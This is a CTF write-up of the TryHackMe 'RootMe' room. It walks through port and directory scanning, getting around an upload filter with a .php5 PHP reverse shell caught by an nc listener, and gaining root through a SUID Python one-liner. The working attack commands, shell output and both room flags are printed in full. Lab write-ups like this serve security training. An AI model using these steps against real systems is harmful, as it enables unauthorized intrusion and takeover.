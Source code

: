 ## RootMe - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/rrootme)

**IP: 10.10.145.91**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Reconnaissance

- Starting with Nmap and Gobuster.

  ```
  nmap -sC -sV -T5 -p- 10.10.145.91
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
  |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
  |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: HackIT - Home
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u 10.10.145.91 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /uploads              (Status: 301) [Size: 314] [--> http://10.10.145.91/uploads/]
  /css                  (Status: 301) [Size: 310] [--> http://10.10.145.91/css/]
  /js                   (Status: 301) [Size: 309] [--> http://10.10.145.91/js/]
  /panel                (Status: 301) [Size: 312] [--> http://10.10.145.91/panel/]
  Progress: 87664 / 87665 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- This will cover recon part, let's do reverse shell now.

---

## ⚙️ Shell Access

- When you visit `http://10.10.145.91/panel/` you will have an option to upload files, you already know what that means. First, I used PHP one liner but it didn't work because uploading a .php file is not allowed. But what about .php5?
  If you are using Kali, you already have a php reverse shell in your system, just copy it wherever you want it, change extension to `.php5` and change IP and Port in the code to match [YOUR-THM-IP] and listening port.
  Upload the shell, start a listener and visit the shell page and you are in! Shell can be found in `/upload` directory.

  ```
  cp /usr/share/webshells/php/php-reverse-shell.php ../../shell.php5

  nc -lvnp 4444                    
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.145.91] 34108
  Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
   14:20:24 up 13 min,  0 users,  load average: 0.00, 0.04, 0.06
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Perfect, as always I have to change it to putty shell then look for flags.

  ```
  python -c 'import pty;pty.spawn("/bin/bash")'
  ^Z
  stty raw -echo; fg
  export TERM=xterm
  ```

---

## 🧍 User Privilege Escalation

- User flag is easy to find.

  ```
  bash-4.4$ find / -name user.txt 2>/dev/null
  /var/www/user.txt
  
  bash-4.4$ cat /var/www/user.txt 
  THM{y0u_g0t_a_sh3ll}
  ```

- Moving to escalation.

---

## 👑 Root Privilege Escalation

- Hint already told us to enumerate SUID and look for suspicious file, so let's do that first.

  ```
  find / -type f -perm -4000 2>/dev/null

  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/snapd/snap-confine
  /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
  /usr/lib/eject/dmcrypt-get-device
  /usr/lib/openssh/ssh-keysign
  /usr/lib/policykit-1/polkit-agent-helper-1
  /usr/bin/traceroute6.iputils
  /usr/bin/newuidmap
  /usr/bin/newgidmap
  /usr/bin/chsh
  /usr/bin/python
  /usr/bin/at
  /usr/bin/chfn
  /usr/bin/gpasswd
  /usr/bin/sudo
  /usr/bin/newgrp
  /usr/bin/passwd
  /usr/bin/pkexec
  /snap/core/8268/bin/mount
  /snap/core/8268/bin/ping
  /snap/core/8268/bin/ping6
  /snap/core/8268/bin/su
  /snap/core/8268/bin/umount
  /snap/core/8268/usr/bin/chfn
  /snap/core/8268/usr/bin/chsh
  /snap/core/8268/usr/bin/gpasswd
  /snap/core/8268/usr/bin/newgrp
  /snap/core/8268/usr/bin/passwd
  /snap/core/8268/usr/bin/sudo
  /snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core/8268/usr/lib/openssh/ssh-keysign
  /snap/core/8268/usr/lib/snapd/snap-confine
  /snap/core/8268/usr/sbin/pppd
  /snap/core/9665/bin/mount
  /snap/core/9665/bin/ping
  /snap/core/9665/bin/ping6
  /snap/core/9665/bin/su
  /snap/core/9665/bin/umount
  /snap/core/9665/usr/bin/chfn
  /snap/core/9665/usr/bin/chsh
  /snap/core/9665/usr/bin/gpasswd
  /snap/core/9665/usr/bin/newgrp
  /snap/core/9665/usr/bin/passwd
  /snap/core/9665/usr/bin/sudo
  /snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /snap/core/9665/usr/lib/openssh/ssh-keysign
  /snap/core/9665/usr/lib/snapd/snap-confine
  /snap/core/9665/usr/sbin/pppd
  /bin/mount
  /bin/su
  /bin/fusermount
  /bin/ping
  /bin/umount
  ```
  
- Suspicious file here is Python. You can find the SUID exploitation one liner on GTFOBins, look for Python then SUID. Just copy/paste the command, run it and you will escalate to root. After that just read the flag.

  ```
  $ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
  # whoami
  root
  
  # cat /root/root.txt
  THM{pr1v1l3g3_3sc4l4t10n}
  ```


---

## 🏁 Flags

- **User Flag**: `THM{y0u_g0t_a_sh3ll}`
- **Root Flag**: `THM{pr1v1l3g3_3sc4l4t10n}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finally used Python for escalation.`

- What did I learn?
  `Just sharpening my skills.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---

